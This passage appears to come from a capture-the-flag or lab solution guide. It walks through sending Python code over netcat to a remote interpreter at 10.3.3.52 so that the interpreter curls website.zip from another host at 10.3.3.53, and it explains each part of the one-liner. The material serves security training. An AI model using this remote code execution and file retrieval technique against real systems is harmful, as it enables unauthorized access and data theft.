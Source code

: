 Start by running the following commands. Following is an explanation of each piece.

```bash
mkdir /home/user/Desktop/website
echo -e 'import subprocess\nsubprocess.run("curl http://10.3.3.53:5000/?filename=* --output -",shell=True)\n--end' | nc 10.3.3.52 22900 | tee /home/user/Desktop/website/website.zip
```

- `mkdir /home/user/Desktop/website`: This will create the directory `website` on the Desktop.
- `echo -e`: Echoes the following string containing Python commands, including the `n` characters, so each gets read in its own line and executed on the remote Python server.
- `import subprocess\nsubprocess.run("curl http://10.3.3.53:5000/?filename=* --output -",shell=True)\n--end`: Imports the `subprocess` module, then runs the curl command against the URL `http://10.3.3.53:5000/?filename=*` which then receives the website.zip file. But, the `--output -"` makes it so the received file is written to Stdout rather than a file.
- `| nc 10.3.3.52 22900`: Initiates the netcat connection to `10.3.3.52:22900` where the Python command string will be echoed into.
- `tee /home/user/Desktop/website/website.zip`: Takes all the output from connecting to the interpreter to receiving the output from the command and writes it to the file `website.zip` in the `website` folder created above.

Once the command has been run, the `website.zip` is nearly ready; the only thing left to do is edit the `website.zip` file to remove the extra strings written from the output of interacting with the remote server. This can be done using the text editor of choice, but this solution guide uses `pico`.

To show how the file should look, the screen prints below show the *before* and *after* when editing `website.zip` at the start and end of the file.

**Here is the start of the file:** where `PK` in the line starting with `Stdout` is the first bytes of the `website.zip` file being received.

Before editing:

![before_website_zip_start](./img/before_website_zip_start.png)
